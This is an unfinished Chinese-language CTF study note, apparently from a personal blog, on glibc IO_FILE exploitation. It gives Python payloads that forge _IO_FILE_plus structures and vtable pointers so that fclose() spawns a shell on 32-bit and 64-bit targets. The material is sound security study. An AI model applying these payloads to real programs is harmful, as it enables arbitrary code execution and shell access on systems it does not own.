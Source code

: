 ```yaml
---
title: IO_FILE ALl_in_one
date: 2018-11-06 20:46:15
tags:
layout: post
---
```

IO_FILE 总结 未完成...
<!--more-->
# Start
最近看到HItcon2018的babytcache发现IO_FILE还是博大精深，之前对于IO_FILE的理解还是十分稚嫩只知道orange和普通的利用...
尔后又看了老钟的博客感觉IO_FILE神奇的很! 收获满满
[老钟博客传送点][1]
开始自己动手把lowkey师傅的课件的题探索一遍...
感觉lowkey师傅的课件还是循循善诱当时基础太差没领会其中奥妙...
开始写前膜一波angelboy lowkey zs0zrc
# 0x00 IO_FILE Basic
像是一些我們熟悉的gets puts 都和IO_FILE有关
基础部分之前在[echo][2]和[orange][3]介绍过一些就不介绍了

# 0x01 fclose()_getshell

在32bit系统中，_IO_jump_t的偏移是0x94，64bit系统中偏移是0xE8

64位:
* 存在后门情况
```python
payload='\x00'*0x10+p64(sh)+"\x00"*0x70+p64(buf)
payload=payload.ljust(0xd8,'\x00')+p64(buf)
payload=payload.ljust(0x100)#充填防髒數據
```
* 不存在后门情况
```python
payload="/bin/sh".ljust(0x10,'\x00')+p64(system)+"\x00"*0x70+p64(buf+0x20)#此处地址上值为0
payload=payload.ljust(0xd8,'\x00')+p64(buf+0x10-0x88)
payload=payload.ljust(0x100,'\x00')#防止脏数据
```

32位：
伪造IO_FILE_plus结构体, 32位和64位不一样，32位的需要伪造vtable,而64位可以不用伪造vtable，因为64位的在绕过几个函数后会获得一次call [rax + 0x10]的机会（zs0zrc）
```python
#存在後門sh use_IO_new_fclose
payload="".ljust(0x48,'\x00')+p32(buf)+p32(sh)
payload=payload.ljust(0x94,'\x00')+p32(buf+0x4c-0x8)
payload=payload.ljust(0x100,"\x00")
#不存在後門情況 use __fclose
payload="/bin/sh".ljust(0x48,'\x00')+p32(buf+8)+p32(system)#0ff 0x48 處指向地址值位0
payload=payload.ljust(0x94,'\x00')+p32(buf-0x44+0x4c)
payload=payload.ljust(0x100,"\x00")

```




[1]:https://www.jianshu.com/p/a6354fa4dbdf
[2]:https://n132.github.io/IO-FILE-IO-buf-base/
[3]:https://n132.github.io/house-of-orange/


